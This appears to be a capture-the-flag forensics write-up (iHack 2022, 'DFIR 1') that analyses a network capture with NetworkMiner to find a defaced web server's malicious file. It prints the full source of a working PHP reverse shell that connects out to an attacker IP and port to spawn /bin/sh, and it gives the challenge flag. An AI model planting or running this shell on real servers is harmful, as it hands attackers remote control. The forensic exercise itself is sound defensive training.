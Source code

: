 # DFIR 1

> **Challenge Description:** iHack's web server have been defaced. Provide us the MD5 hash of the malicious file in the web server from this PCAP.
> **Flag Format:** `ihack{MD5}`

## Solution

We can first analyze the PCAP file in `Wireshark` by doing `Follow TCP Streams`. However, due to the overwhelmingly amount of files, using `NetworkMiner` would be a better option.

![Screenshot](./Screenshot.png)

A PHP reverse shell was found on stream `TCP 61440`. 

```
<?php
// PHP Reverse Shell
// Copyright (C) 2020 e@hotmail.com
// AbuDayeh
set_time_limit (0);
$VERSION 	= "1.0";
$ip 		= '192.168.74.143'; 	// Change Your {IP}
$port 		= 4444;       	// Change Your {Port}
$chunk_size 	= 1400;
$write_a 	= null;
$error_a 	= null;
$shell 		= 'echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d; /bin/sh -i';
$daemon 	= 0;
$debug 		= 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

This can be verified by viewing the base64 encoded payload embedded in the PHP file.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d
Welcome to ihack 2022. md5 this webshell
```

Retrieve the MD5 hash of the PHP web shell.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ md5sum /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
8472a0454391a40792173708866514ef  /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
```

**Flag:** `ihack{8472a0454391a40792173708866514ef}`
